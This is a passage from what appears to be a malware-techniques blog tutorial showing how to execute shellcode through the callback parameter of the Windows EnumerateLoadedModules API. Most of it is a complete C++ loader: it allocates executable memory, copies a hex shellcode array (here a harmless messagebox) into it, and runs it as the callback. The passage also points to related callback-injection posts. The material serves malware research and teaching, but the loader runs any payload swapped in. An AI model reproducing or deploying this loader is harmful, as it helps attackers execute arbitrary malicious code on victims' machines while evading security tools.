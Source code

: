 As you can see, our callback function printed our "evil" DLL. Perfect!   

### practical example 3. shellcode running via callback function.    

This is the most interesting example. It turns out that you can run shellcode using the callback function in this API:    

```cpp
/*
 * hack3.cpp - run shellcode via EnumerateLoadedModules. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2022/12/21/malware-tricks-25.html
*/
#include <windows.h>
#include <dbghelp.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumerateLoadedModules(GetCurrentProcess(), (PENUMLOADED_MODULES_CALLBACK)mem, NULL);
  return 0;
}
```

If you have been reading my blog for a long time, then I think you have a deja vu. As you can see, it's similar to run shellcode via [EnumDesktopsA](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html) and [EnumChildWindows](https://cocomelonc.github.io/malware/2022/07/13/malware-injection-21.html). The only difference is just add `dbghelp.h`. As usually, for simplicity I used `meow-meow` messagebox payload:    

